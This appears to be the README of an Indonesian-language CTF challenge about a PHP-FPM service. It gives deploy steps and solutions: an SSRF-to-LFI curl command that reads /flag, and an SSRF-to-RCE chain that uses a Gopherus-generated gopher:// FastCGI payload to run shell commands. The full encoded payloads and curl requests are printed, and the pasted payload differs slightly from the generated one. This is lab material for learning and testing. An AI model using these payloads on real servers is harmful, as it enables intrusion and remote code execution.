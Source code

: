 # php-mpf (php-fpm)
TODO: buat flag

## deploy
1. ubah port eksternal di `docker-compose.yml`
2. `docker-compose build`
3. `docker-compose up`

## flag 1
SSRF to LFI

```
curl http://url:port/ -X POST -d 'url=file:///flag'
```

## flag 2
SSRF to RCE, config discovery pakai default path, baca file lewat LFI dari solusi sebelumnya, contoh:
```
/etc/nginx/conf.d/default.conf
/etc/apache2/...
```

dari itu didapet url/socket fastcgi, pakai [Gopherus](https://github.com/tarunkant/Gopherus/) untuk dapat payload RCE.

```
$ python2 gopherus.py --exploit fastcgi
...
Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  /var/www/html/index.php
Terminal command to run:  ls -la /

Your gopher link is ready to do SSRF:

gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH60%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3C%04%00%3C%3Fphp%20system%28%27ls%20-la%20/%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
...
$ curl http://url:port/ -X POST -d "url=gopher://127.0.0.1:9000_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/.1%0E%02CONTENT_LENGTH60%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3C%04%00%3C%3Fphp%20system%28%27ls%20-la%20%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00"
```
